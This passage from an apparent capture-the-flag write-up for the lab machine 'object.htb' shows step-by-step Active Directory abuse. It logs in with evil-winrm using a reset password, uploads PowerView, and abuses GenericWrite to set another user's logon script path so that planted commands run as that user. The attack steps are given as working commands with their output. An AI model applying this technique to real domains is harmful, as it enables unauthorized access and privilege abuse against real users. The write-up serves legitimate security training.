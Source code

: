 Now that we have changed the password of **smith**, we can use its credentials with `evil-winrm`.

```bash
$ evil-winrm -i object.htb -u smith -p 'Password123!'

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\smith\Documents> 
```

Next, we know that **smith** has *GenericWrite* privileges over **MARIA@OBJECT.LOCAL**. This privilege allows us to modify user attributes. 

After looking around for a while and some internet research, we discovered that we could update the logon script for **maria**. You can check the following [post](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse#genericwrite-on-user) for some details. The main idea is that when **maria** logs into the machine, the script will be executed which could give us the ability to execute commands as **maria**.

To do this, we need a directory where any user can read or write. Here we could use **C:\ProgramData** as it does not require elevated permissions.

```bash
*Evil-WinRM* PS C:\Users\smith\Documents> ls -h c:\

    Directory: C:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--hs-        9/15/2018  12:19 AM                $Recycle.Bin
d--hsl        4/10/2020  10:47 AM                Documents and Settings
d--h--       10/26/2021   9:49 PM                ProgramData
d--hs-       10/20/2021   9:17 PM                System Volume Information
-a-hs-        5/24/2023  10:54 AM     1073741824 pagefile.sys
```

Now, let's see what **maria** has in its desktop folder.

```bash
*Evil-WinRM* PS C:\ProgramData> cd C:\Users\smith\Documents
*Evil-WinRM* PS C:\Users\smith\Documents> cd c:\ProgramData
*Evil-WinRM* PS C:\ProgramData> upload ../../var/www/html/PowerView.ps1
                                        
Info: Uploading /home/ax/../../var/www/html/PowerView.ps1 to C:\ProgramData\PowerView.ps1
                                        
Data: 1027036 bytes of 1027036 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\ProgramData> import-module .\PowerView.ps1
*Evil-WinRM* PS C:\ProgramData> echo "ls C:\Users\maria\Desktop > C:\ProgramData\result.txt" > script.ps1
*Evil-WinRM* PS C:\ProgramData> Set-DomainObject -Identity maria -SET @{scriptpath="C:\\ProgramData\\script.ps1"}
*Evil-WinRM* PS C:\ProgramData> type result.txt

    Directory: C:\Users\maria\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/26/2021   8:13 AM           6144 Engines.xls
```
